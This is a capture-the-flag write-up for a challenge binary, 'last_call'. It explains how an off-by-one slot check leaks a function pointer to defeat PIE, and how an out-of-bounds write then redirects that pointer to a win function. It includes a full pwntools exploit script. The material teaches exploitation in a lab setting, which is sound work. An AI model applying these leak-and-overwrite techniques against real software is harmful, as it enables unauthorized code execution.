







> **Challenge Scenario**
Pixel Palace is closing tonight, for good. The marquee is half-dead, the owner already left, and the only thing still running is the high-score cabinet in the back corner. Local legend says there's a vault behind it that only opens for the one true eternal champion -- not whoever's sitting at the top of the leaderboard, something the cabinet itself remembers. The leaderboard only has 10 slots, and the firmware is ancient enough that nobody ever double-checked where slot 10 actually points.
- Let's first just run this binary and see what the scenario means:
    - 
    - 
- We can see that for 0-9, the hex dumps are all the same, but 10 seems to leak some info (later explained below), and other than these all show no slot. Let's check the file and the protections:
- 
- Upon first inspection: It seems very secure, with all protections enabled...
- Let's decompile it and see if the code allows us to wrap around of these defenses immediately
    - 
- In the `view_slot` code we can spot the `off-by-one` error, where if we input `10`, it won't go in the `if` statement above.
- Now we know how the vuln works, let's see how we can exploit the leakage. The info in the hex dump seems like an address `b3 29 ea 08 6b 7f`, because it is stored in little-endian, the true address in 64-bit architecture is `0x00007f6b08ea29b3`. We now want to know what it is right, so let's head into ghidra and try to find this... is it a function?
- First, note that Ghidra uses a fake base for PIE programs of `0x100000`, and for PIE, the last 3 digits don't change, so the location must be `0x...9b3`
- Let's find what this function is in gdb! (address changes due to PIE but you get it)
    - 
- So the function is `closing_jingle`, comparing this to ghidra by pressing `G` and typing the function name:
    - 
- The offset is `0x89b3`. So now, we have the absolute address for this run, and the offset => We can determine the base!
    - Run `p/x 0x7f6b08ea29b3 - 0x89b3` in GDB, get `0x7f6b08e9a000` -> Sanity check: A real base always ends in `000`, so if it is not, then something is wrong.
- After knowing the base, we luckily see that this function: `open_vault_for_real` is right under `closing_jingle` with offset `0x89cd` (This part, we actually should do Window -> Functions and sort by mem address, find main and check the functions near it, would be easier to spot valuable functions)
    - 

    - 
- So its obvious that we want to get the program to call this `win` address by going to `0x7f6b08e9a000 + 0x89cd`
- But now, who calls this pointer? We can't return to this address ourselves because the canary exists, so we need to get a function to call this pointer to the winning function.
- 
- We see the `closing_time` function calls this opening vault function if it is non zero
- This `vault.open_vault` value initially holds the pointer to `closing_jingle`
    - 
- So we want to overwrite this, how so? We know that there is a `submit_score` function
    - 
- Which `fread` the starting point, and reads 48 bytes from our stdin and overwrites the open_vault variable. 
- Thus the full attack chain:
> Off-by-one (slot<=10)  → vault is reachable as "slot 10"
option 2  → read  vault.open_vault      → leak → defeat PIE (get base)
option 1  → write vault.unlocked + open_vault  → arm + redirect the pointer
option 3  → read  vault.unlocked + open_vault  → calls our pointer → open_vault_for_real → flag
```python
#!/usr/bin/env python3
from pwn import *

context.binary = elf = ELF('./last_call', checksec=False)
context.log_level = 'info'

def start():
    if args.REMOTE:                      # python3 solve.py REMOTE HOST=1.2.3.4 PORT=1337
        return remote(args.HOST, int(args.PORT))
    return process(elf.path)

io = start()

# --- Step 1: leak. Slot 10 is out of bounds (check is idx <= 10, not < 10) ---
# It lands on the "closing time" struct: {int armed; void (*fn)(); ...}
io.sendlineafter(b'> ', b'2')
io.sendlineafter(b'slot (0-9): ', b'10')
io.recvuntil(b'bytes):\n')
dump = bytes.fromhex(io.recvline().decode() + io.recvline().decode() + io.recvline().decode())
leak = u64(dump[8:16])                   # closing_jingle pointer
elf.address = leak - elf.sym.closing_jingle # where it is minus offset
log.success(f'closing_jingle @ {leak:#x}')
log.success(f'PIE base       @ {elf.address:#x}')

# --- Step 2: overwrite slot 10: armed = 1, fn = open_vault_for_real ---
payload = p32(1) + p32(0) + p64(elf.sym.open_vault_for_real)
payload = payload.ljust(0x30, b'\0')
io.sendlineafter(b'> ', b'1')
io.sendlineafter(b'slot (0-9): ', b'10')
io.sendafter(b'raw bytes', b'')          # sync on prompt text
io.recvuntil(b': ')
io.send(payload)

# --- Step 3: trigger closing_time -> calls our pointer ---
io.sendlineafter(b'> ', b'3')
print(io.recvall(timeout=2).decode(errors='replace'))

```
> The general lesson: when checksec shows everything enabled, look for a bad bounds check that gives you a read and a write in a global, plus a function pointer near that global. The read leaks PIE and the write takes over the pointer.

> There is a TON of implicit knowledge in this problem!!! It is very useful to memorize it as common sense:
    1. A real base ends in `000`
    2. Ghidra uses fake base `0x100000` for PIE
    3. The last 3 digits of the address do not change even PIE is enabled
    4. Little-endian should be noted
- 
